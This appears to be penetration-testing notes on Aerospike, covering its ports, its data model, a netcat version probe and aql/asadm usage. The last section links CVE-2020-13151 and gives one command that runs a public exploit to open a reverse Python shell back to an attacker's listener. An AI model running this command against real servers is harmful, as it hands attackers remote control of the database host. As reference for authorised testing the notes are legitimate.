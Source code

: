 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Aerospike (3000-3005)

## 101

**Aerospike** is a fast, NoSQL key-value store used in real-time apps—think session storage, user profiles, ad tech, etc. You might encounter it in environments that value _speed over complexity_, often with large-scale deployments.

<table><thead><tr><th width="176.99993896484375">Port</th><th width="208.66668701171875">Protocol</th><th>Description</th></tr></thead><tbody><tr><td><code>3000</code></td><td>TCP</td><td>Client access (main DB port)</td></tr><tr><td><code>3001</code></td><td>TCP</td><td>Internal fabric (cluster communication)</td></tr><tr><td><code>3002</code></td><td>TCP</td><td>Heartbeat (node monitoring)</td></tr><tr><td><code>3003</code></td><td>TCP</td><td>Info (optional; monitoring/statistics)</td></tr><tr><td><code>3004-3005</code></td><td>TCP</td><td>TLS equivalents of above (if enabled)</td></tr></tbody></table>

<table><thead><tr><th width="121.00006103515625">Aerospike</th><th width="98.6666259765625">RDBMS </th><th>Description</th></tr></thead><tbody><tr><td>Namespace</td><td>Database</td><td>Top-level data container. Configured with storage engine, replication, TTL, etc.</td></tr><tr><td>Set</td><td>Table</td><td>Logical grouping of records within a namespace; a table without enforced schema.</td></tr><tr><td>Record</td><td>Row</td><td>A single data entry identified by a key.</td></tr><tr><td>Bin</td><td>Column</td><td>Key-value pair inside a record.</td></tr></tbody></table>

## Manual Probe

```bash
$ nc -nv 192.168.X.143 3003
(UNKNOWN) [192.168.X.143] 3003 (?) open
help
...
namespace;truncate-namespace-undo;truncate-undo;version;
version
Aerospike Community Edition build 5.1.0.1
```

## Usage

{% tabs %}
{% tab title="aql" %}
To interact the **`aql`** (Aerospike Query Language) utility can be used:

```bash
aql -h <host> -p 3000
```

Once connected, basic commands look like:

```sql
show namespaces;
show sets;
select * from <namespace>.<set>;
```
{% endtab %}

{% tab title="asadm" %}
For deeper inspection/admin tasks the Admin Tool (`asadm`) can be used:

```bash
asadm -h <host> -p 3000
```
{% endtab %}
{% endtabs %}

## Versions

### < 5.1.0.3

Vulnerable to[ CVE-2020-13151](https://nvd.nist.gov/vuln/detail/CVE-2020-13151) with a [PoC](https://github.com/b4ny4n/CVE-2020-13151) available.

```bash
$ ./cve2020-13151.py --ahost aero --pythonshell --lhost=192.168.X.154 --lport=80
```
